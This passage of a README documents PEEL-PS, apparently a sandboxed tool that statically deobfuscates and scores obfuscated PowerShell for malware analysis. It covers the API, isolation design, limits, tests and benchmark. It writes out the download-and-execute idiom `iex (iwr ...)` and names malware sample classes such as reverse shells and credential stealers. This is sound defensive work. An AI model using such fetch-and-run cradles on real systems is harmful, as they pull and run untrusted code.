| `-q, --quiet` | no progress or summary output |
| `-h, --help` | help |

A directory input is walked recursively for `.ps1`, `.psm1` and `.psd1` files. Inputs are limited to 16 MB. Files that could not be
decoded (or are binaries) are written byte for byte; decoded code is written as UTF-8.

Exit codes: `0` ok, `1` error, `2` usage error, `4` `--fail-on` threshold reached (takes precedence over errors).

## Library

```bash
npm install github:LLCForge/Peel-PS
```

```js
import { readFile } from 'node:fs/promises';
import { peel, createSandbox } from 'peel-ps/src/index.js';

const sandbox = await createSandbox();
const { code, verified, partial, report } = await peel(await readFile('obfuscated.ps1'), { sandbox, lang: 'en' });
console.log(code);              // readable script
console.log(verified);          // true if the whole input parsed and every step was re-parsed
console.log(report.threat);     // { score, level, classes: [{ id, title, evidence }] }
console.log(report.iocs.urls, report.iocs.cradles);
sandbox.close();
```

| Export | |
|---|---|
| `peel(input, options)` | deobfuscate and analyse; `input` is a string or a `Uint8Array` (UTF-8, or UTF-16 with a BOM). Returns the pipeline result plus `report` |
| `deobfuscate(input, options)` | the pipeline only: `{ code, verified, partial, stats, events, trace, ms }` |
| `analyze({ input, output, ... })` | build a report from pipeline results |
| `createSandbox()` | an isolated decoder: a Node child process with the permission model, or a Web Worker with CSP, depending on where it runs |
| `passes()` | the pass list in order |

Options: `only` (pass ids), `signal` (`AbortSignal`), `onLog`, `onPass`, `onSnapshot`, `formatOutput` (default `true`), `budget`
(`{ ms, steps }`) and, for `peel`, `lang`, `sandbox` and `timeoutMs`. Without a `sandbox` the pipeline runs in the calling process,
bounded by its budget.

The report format is documented at the top of [`src/core/analyze.js`](src/core/analyze.js).

## How it works



Every pass reads the syntax tree and rewrites the text by position; the scope analysis gives each variable read its value at that
point; the evaluator turns constant expressions into values. Nothing is ever executed. In the browser the whole pipeline runs in a
Web Worker; the page replays its log, pass states and snapshots when it finishes.

| Folder | Contents |
|---|---|
| `src/passes/` | the 6 passes |
| `src/core/` | parser, variable flow, static evaluator, codecs (base64, encodings, Deflate/GZip), AES for SecureString, formatter, pipeline, report assembly |
| `src/sandbox/` | the isolated decoder: watchdog, Node child process and Web Worker hosts |
| `src/report/` | detection, threat analysis, behaviour, IOCs, readability, compiled-script recognition, summary |
| `src/ui/` | the web interface |
| `src/cli/`, `bin/` | the CLI |
| `test/` | fixtures, unit tests and the benchmark |
| `scripts/` | fixture generators |

## Safety model

- **The script is never executed.** There is no PowerShell runtime involved. Parsing, analysis and rewriting are pure JavaScript
  over text; the evaluator only implements side-effect-free operations, and an unknown call is never "tried".
- **Isolation anyway.** Untrusted input is still a parser and decoder attack surface, so in the browser the decoder runs in a Web
  Worker with its own Content Security Policy (`default-src 'none'; script-src 'self'; connect-src 'self'`) and a JavaScript lock that
  removes `fetch`, `XMLHttpRequest`, `WebSocket`, `EventSource`, `WebTransport`, `importScripts`, nested workers, `caches`,
  `indexedDB`, `BroadcastChannel`, `eval`, the `Function` constructors and string timers. The status bar shows which layers are
  active; hosts that cannot set headers (GitHub Pages) get only the JavaScript lock, and the status bar warns about it.
- **Node (CLI, library with `createSandbox`).** The decoder process is started with `node --permission --max-old-space-size=1024` and
  may read only `src`, `node_modules` and `package.json`; file writes, child processes, workers and the network are denied by Node
  itself. The test suite checks this.
- **Watchdog and budgets.** Every file has a time and step budget inside the decoder; a worker or process that still hangs is killed
  and replaced after the budget plus 10 s of grace. **Stop** kills it immediately. Decompression output, string sizes, array sizes,
  layer count and input size are capped, and regular expressions with nested quantifiers are refused.
- **Fixtures are encoded on disk.** Test samples that look like malware are stored XOR + base64 encoded (`.x`) so antivirus
  software does not flag the repository, and are decoded only in memory.

## Honest limits

- **Only what is constant comes back.** A layer whose content depends on a download, the registry, a file, user input, the
  environment, the date or anything else outside the script is kept as it is. That is deliberate, and it is also why
  `iex (iwr ...)` is reported, not unwrapped.
- **Windows PowerShell 5.1 assumptions.** Automatic variables get 5.1 values (`$PSHome`, `$env:ComSpec`, `MaximumDriveCount`,
  `[Text.Encoding]::Default` as Windows-1252). `"$?"` alone is treated as `True`, as at the start of a script. A script that only
  works on PowerShell 7 can be read differently.
- **The evaluator is a subset.** No user functions, no loops, no `-match`/`$Matches`, no `switch`, no .NET beyond the list above.
  Values computed inside loops, functions or after an unresolved `iex` are not propagated.
- **Dead branches stay.** `if ($false) { ... }` is not removed.
- **Launchers are read as command lines.** `cmd /c "... $env:X"` is interpreted with cmd/Windows argument rules, not as a
  PowerShell string; this is right for process-creation logs and wrong for the rare script that builds such a line itself.
- **Invoke-Obfuscation itself is not in the benchmark.** The samples are produced by PEEL's own generator in Invoke-Obfuscation's
  style (see [Benchmark](#benchmark)); real tool output can differ in details.
- **Unparseable statements are kept, not decoded.** The result is then marked as not verified.
- **Compiled scripts** (PS2EXE) are identified only.
- **Log language.** The pipeline's log lines are written in Turkish even when the interface is in English.

## Tests

```bash
npm test                            # 54 fixtures through the whole pipeline, then 6 unit test files
node test/run.js enc-bxor           # fixtures whose name contains the filter, with log and output
node test/run.js --powershell       # also run fixtures in local Windows PowerShell
npm run fixtures                    # regenerate the encoded fixtures
```

A fixture is a `.ps1.x` file in [`test/fixtures/`](test/fixtures) (encoded on disk, see above) with directive comments:

```powershell
# EXPECT: Write-Output 'x'    must appear in the output
# GONE: -join                 must not appear in the output
# KEEP: iex $c                must stay in the output (code that depends on outside input must not be touched)
# OUT: x                      a line the script prints (checked with --powershell)
```

The fixtures cover every family: TOKEN (ticks, case, concatenation, `-f`, members, types, `${}` variables, splatting, `Set-Variable`,
`Get-Variable`, `Get-Item variable:`), STRING (concatenation, reordering, three kinds of reversal, split/join, `.Replace`, `-creplace`,
`[char[]]`), ENCODING (ASCII, hex, octal, binary, BXOR, SecureString with `Marshal` and with `PSCredential`, special characters only,
base64), COMPRESSION (Deflate, GZip with variables, `CopyTo`), LAUNCHER (`-Enc`, `-Command`, `cmd /c`, `%COMSPEC% ... start`, stdin,
`set` + `$env:`, nested), layers (`| iex`, `ScriptBlock::Create`, `InvokeScript`, five `iex` disguises, three nested layers, value
context, inside a function) and code that must be kept (remote download, `iex` of the environment, of `Read-Host`, of a parameter,
loop-variant variables, unresolved dynamic code).

**Measured on Windows PowerShell 5.1:** with `--powershell`, 46 fixtures that print something were run before and after peeling in
Windows PowerShell 5.1.26100; all 46 obfuscated inputs and all 46 peeled outputs printed exactly the expected lines (54/54 fixtures
pass, 42 s). The remaining eight fixtures contain network calls, `Read-Host`, an unset environment variable or a command line that
starts a separate process, and are not executed.

The unit tests cover the parser (including a 20 000-term concatenation and 5 000 levels of nesting, which is kept as raw text), the evaluator, codecs, AES,
formatting and its signature check, Windows argument splitting, budgets and layer limits, the report (encoded dropper, AMSI bypass,
persistence, reverse shell, credential stealer, wiper, miner and PS2EXE samples), the CLI, translations, the isolation (the decoder
process cannot write files, start processes or read outside its folders; the watchdog replaces a hung engine) and the browser build's
sample, headers and PWA files. `npm test` takes about 15 seconds.

## Benchmark

```bash
npm run bench                       # all samples
node test/bench.js --powershell     # also compare behaviour in local Windows PowerShell
node test/bench.js deflate          # samples whose name contains the filter
```

[`test/bench.js`](test/bench.js) generates 72 samples in memory on every run: three harmless payloads (a single `Write-Output`, a
short script with a variable, string expansion, a `foreach` loop and a pipeline, and a typed variable with arithmetic and `-f`)
through each of 16 techniques that follow Invoke-Obfuscation's families (concatenation, `-f` reordering, two kinds of reversal,
`.Replace`, ASCII, hex, octal, binary, BXOR, base64, Deflate, GZip, SecureString, backticks with random case, `-EncodedCommand`
launcher) as single layers (48 samples), and through random chains of 2 to 4 techniques with a fixed seed (24 samples). Each layer
hands its code to a randomly chosen `iex` disguise. A sample counts as **unwrapped** when no obfuscation idiom is left in the output and
the payload's commands are back, and as **same behaviour** when Windows PowerShell prints exactly the same lines for the obfuscated
sample and for PEEL's output.

Two consecutive runs with `--powershell` (Windows PowerShell 5.1.26100):

| Technique | Unwrapped | Same behaviour |
|---|---|---|
| each of the 16 single-layer techniques | 3/3 | 3/3 |
| random chains (2 to 4 layers) | 24/24 | 24/24 |
| **Per run** | **72/72, 72/72** | **72/72, 72/72** |

Peeling took 5 to 6 ms per sample on average and at most 33 to 42 ms; the largest sample (a 31 KB BXOR → SecureString → binary chain)
is peeled in about 15 ms when PowerShell is not running alongside.
These samples come from PEEL's own generator, not from Invoke-Obfuscation, so they show that every family is handled and
that the output keeps its behaviour; they are not a measurement against the tool's exact output.

## Contributing

Issues and pull requests are welcome. If you have a script PEEL does not handle, please open an issue with a small, harmless
version of it. A pull request that adds a fixture proving the fix is the fastest way to get it merged.

## License

[MIT](LICENSE). Free to use, change and redistribute, including commercially. There is no paid tier, no account and no telemetry.
